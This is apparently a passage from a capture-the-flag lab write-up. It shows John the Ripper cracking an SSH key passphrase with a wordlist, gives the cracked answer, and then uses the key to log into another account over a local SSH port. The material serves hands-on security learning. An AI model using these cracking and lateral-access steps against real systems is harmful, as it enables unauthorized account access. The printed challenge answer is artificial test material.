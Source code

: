 ```
john id_rsa_hash_result --wordlist=/usr/share/wordlists/rockyou.txt    
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
industryweapon   (id_rsa)     
1g 0:00:00:04 DONE (2022-12-05 21:04) 0.2049g/s 1502Kp/s 1502Kc/s 1502KC/s indux.0210..industrias26
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# answer : industryweapon

# What is user.txt?

When we try to connect the targeted machine with **robert RSA key**, if doesn't work
```
ssh robert@10.10.45.248 -i id_rsa                       
Enter passphrase for key 'id_rsa': 
Connection closed by 10.10.45.248 port 22
```

Let's check if **ssh** uses another port
```
maya@linuxagency:~/old_robert_ssh$ ss -nlpt
State                  Recv-Q                   Send-Q                                      Local Address:Port                                      Peer Address:Port
LISTEN                 0                        128                                             127.0.0.1:2222                                           0.0.0.0:*
LISTEN                 0                        128                                             127.0.0.1:80                                             0.0.0.0:*
LISTEN                 0                        128                                         127.0.0.53%lo:53                                             0.0.0.0:*
LISTEN                 0                        128                                               0.0.0.0:22                                             0.0.0.0:*
LISTEN                 0                        5                                               127.0.0.1:631                                            0.0.0.0:*
LISTEN                 0                        128                                             127.0.0.1:35167                                          0.0.0.0:*
LISTEN                 0                        128                                                  [::]:22                                                [::]:*
LISTEN                 0                        5                                                   [::1]:631                                               [::]:*
```

we need to use **2222**
```
maya@linuxagency:~/old_robert_ssh$ ssh robert@127.0.0.1 -p 2222 -i olold_robert_ssh/id_rsa
Warning: Identity file olold_robert_ssh/id_rsa not accessible: No such file or directory.
robert@127.0.0.1's password:
Last login: Tue Jan 12 17:02:07 2021 from 172.17.0.1
robert@ec96850005d6:~$
```
```
robert@ec96850005d6:~$ ls -la
total 24
drwxr-xr-x 2 robert robert 4096 Jan 12  2021 .
drwxr-xr-x 1 root   root   4096 Jan 12  2021 ..
lrwxrwxrwx 1 robert robert    9 Jan 12  2021 .bash_history -> /dev/null
-rw-r--r-- 1 robert robert  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 robert robert 3771 Apr  4  2018 .bashrc
```